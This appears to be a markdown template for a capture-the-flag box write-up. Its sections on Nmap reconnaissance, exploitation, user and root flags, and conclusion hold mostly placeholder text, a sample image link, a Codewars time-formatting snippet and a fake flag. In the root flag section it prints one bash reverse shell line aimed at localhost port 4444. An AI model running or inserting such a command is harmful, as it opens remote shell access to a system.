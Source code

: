 # Information Gathering

## Nmap
We begin our reconnaissance by running an Nmap scan checking default scripts and testing for vulnerabilities.

```console

```
From the above output we can see that ports, **22**, **53**, **81**, and **444** are the ports open. 

Look  here's an image of my website, this is how you format an image.

![My Website](./images/ryankozak.com.png)
**Figure :** ....

Maybe we want to show some python code too, to let's take a look at a snipped from [codewars](https://www.codewars.com) to format time as human readable.

```python
def make_readable(seconds):        

    hours = seconds / 60**2
    minutes = seconds/60 - hours*60
    seconds = seconds - hours*(60**2) - minutes*60

    return '%02d:%02d:%02d' % (hours, minutes, seconds)
```


# Exploitation  
In order to gain our initial foothold we need to blablablabla. 
**EITHER LINK TO CODE OR LINK TO CODE + CHANGED SECTION**

```python
print("[+] Exploited System!")
```


## User Flag
In order to get the user flag, we simply need to use `cat`, because this is a template and not a real writeup!

```
x@wartop:~$ cat user.txt
6u6baafnd3d54fc3b47squhp4e2bhk67
```

## Root Flag
The privilege escalation for this box was not hard, because this is an example and I've got sudo password. Here's some code to call a reverse shell `bash -i >& /dev/tcp/127.0.0.1/4444 0>&1`.


![Root](./images/root.png)
**Figure :** ....


# Conclusion
In the conclusion sections I like to write a little bit about how the box seemed to me overall, where I struggled, and what I learned.

# References
1. [GOOGLE](https://google.co.uk)